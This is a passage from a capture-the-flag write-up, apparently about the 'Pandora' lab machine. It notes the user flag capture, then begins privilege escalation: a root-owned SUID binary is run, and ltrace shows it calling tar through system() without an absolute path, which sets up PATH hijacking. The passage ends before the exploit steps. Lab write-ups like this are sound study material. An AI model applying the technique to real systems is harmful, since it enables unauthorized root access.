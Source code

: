 I can now grab that user.txt flag:

![pandora_user.png](../assets/pandora_assets/pandora_user.png)

### Privilege Escalation

Thinking back to my original LinPEAS scan, I recall that there was a file called pandora_backup, which was owned by root, that had the SUID bit set.

Trying to execute it we get this error:

```
matt@pandora:/home/matt$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
Backup failed!
Check your permissions!
```

From the looks of this it appears to be utilizing tar, but may not be providing the absolute path.

Lets use ltrace to confirm:
```
matt@pandora:/tmp$ ltrace pandora_backup
getuid()                                         = 1000
geteuid()                                        = 1000
setreuid(1000, 1000)                             = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)      = 43
system("tar -cvf /root/.backup/pandora-b"...$ 
```